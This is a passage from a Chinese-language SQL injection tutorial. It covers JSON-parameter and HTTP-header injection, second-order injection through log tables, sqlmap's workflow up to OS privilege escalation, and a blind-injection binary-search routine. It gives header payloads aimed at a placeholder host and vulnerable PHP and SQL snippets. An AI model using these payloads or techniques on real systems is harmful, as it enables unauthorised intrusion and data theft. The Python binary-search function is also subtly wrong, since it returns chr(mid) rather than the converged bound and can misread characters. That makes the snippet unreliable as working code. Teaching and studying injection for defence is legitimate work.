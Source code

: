 **防御缺失场景**：后端PHP代码直接拼接JSON参数：
```php
$json = json_decode(file_get_contents('php://input'), true);
$sql = "SELECT * FROM products WHERE name = '".$json['query']."'";
```
此时注入代码会被直接执行，可通过常规注入流程提取数据。

### 6.3 HTTP头注入漏洞
部分应用会读取HTTP头信息（如`X-Forwarded-For`、`User-Agent`）并用于日志记录或SQL查询，导致注入：

```http
GET / HTTP/1.1
Host: victim.com
User-Agent: Mozilla/5.0' AND (SELECT 1 FROM users WHERE username='admin') -- 
X-Forwarded-For: 127.0.0.1' OR 1=1 -- 
```

**实战利用**：若应用记录访问日志时执行SQL：
```sql
INSERT INTO logs (ip, user_agent) VALUES ('$ip', '$ua')
```
注入代码会被写入日志表，若日志表后续被查询且未过滤，将触发二次注入。

## 第七章：自动化注入工具原理
### 7.1 sqlmap内核解析
sqlmap作为主流自动化注入工具，其核心工作流程如下：

```mermaid
flowchart TB
    S[开始] --> D[指纹识别]
    D --> I[注入点探测]
    I -->|Union| U[回显注入]
    I -->|Error| E[报错注入]
    I -->|Boolean| B[盲注]
    I -->|Time| T[延时注入]
    U --> X[数据提取]
    E --> X
    B --> X
    T --> X
    X --> O[操作系统提权]
    O --> R[报告生成]
```

- **指纹识别**：通过发送特定Payload判断数据库类型（MySQL/PostgreSQL/Oracle等）和版本。
- **注入点探测**：对URL参数、表单字段、HTTP头进行自动化测试，确定可注入位置。
- **注入方式选择**：根据回显情况自动选择最优注入方式（回显/报错/盲注）。
- **数据提取**：从数据库元信息（`information_schema`）到具体数据（用户表、密码等）逐层提取。
- **提权尝试**：检测是否可通过UDF、存储过程等方式执行系统命令。

### 7.2 盲注优化算法
盲注需逐字符猜解数据，效率较低，sqlmap采用二分法优化猜解过程：

```python
def binary_search(sql, position):
    low, high = 32, 126  # ASCII可见字符范围
    while low <= high:
        mid = (low + high) // 2
        # 构造条件Payload：判断第position位ASCII值是否大于mid
        payload = f"ASCII(SUBSTR(({sql}),{position},1))>{mid}"
        if send_request(payload):  # 发送请求并判断响应
            low = mid + 1  # 条件为真，调整下限
        else:
            high = mid - 1  # 条件为假，调整上限
    return chr(mid)  # 返回猜解的字符
```
